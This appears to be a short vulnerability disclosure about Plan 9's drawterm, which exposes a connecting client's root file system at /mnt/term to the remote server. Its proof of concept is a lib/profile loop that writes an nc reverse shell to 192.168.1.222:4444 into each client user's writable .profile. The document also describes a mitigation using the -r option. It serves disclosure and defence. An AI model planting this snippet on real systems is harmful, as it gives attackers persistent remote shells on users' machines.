 **Background**<br />
While there are SSH clients in Plan 9, connecting to a Plan 9 machine in a way that allows you to run programs on that system (like an SSH connection) is typically done via drawterm (for Windows, Linux, OS X, etc) or rcpu (for other Plan 9 machines). One notable difference is the mount to “/mnt/term/” that will appear on the remote Plan 9 server. This usually consists of a mount to the (default root) file-system of the client, and allows easy transfers of files between the server and client.

The “/mnt/term/” mount is done in the name-space of the running connections, and the mount to the and individual client’s file-system would not be available to other connected clients. However, if a CPU server was compromised, or a user was tricked into connecting to an malicious CPU server, a lib/profile (or a compromised executable called by lib/profile) could be crafted that would have access to the clients file-system in the context of the connecting user.

**Proof of Concept**<br />
A reverse shell could be appended to a lib/profile:

    cpu% cat lib/profile
    bind -a $home/bin/rc /bin
    ...
    for (i in `{ls /mnt/term/home/}) {
       if ( test -w $i/.profile ) {
  	      echo 'nc 192.168.1.222 4444 -c /bin/sh &' >> $i/.profile
        }
    }

If someone connects to this account (and they are running a normal Linux distro), a reverse shell will be appended to thier profile. When the user logs out and on again, this reverse shell will connect back to an attacking machine (192.168.1.222 port 4444, in this case).

**Mitigation**<br />
Users of the 9front’s drawterm can mitigate this issue with the “-r” option, which allows users to specify the root of a local file-system to be mounted:

/opt/drawterm/drawterm -a 9front.lan -h 9front.lan -u glenda -r /home/jgstratton/plan9/

I believe the default behavior of 9front’s drawterm shouldn’t mount “/” by default. It should either force user to use the “-r” option if they want this behavior, or maybe create a custom directory in /tmp/ for use in drawterm’s name-space. However: 
1. There are historic/Plan 9 reasons for this “/mnt/term”.
1. “Plan 9” isn't really targeted by malicious people.
1. The issue can be dealt with with the “-r” option.
1. To exploit, an account must already be compromised or a user tricked into connecting into an account that has been constructed for this.

So, in short, I don’t see it as a huge issue. Just something to keep in mind. 

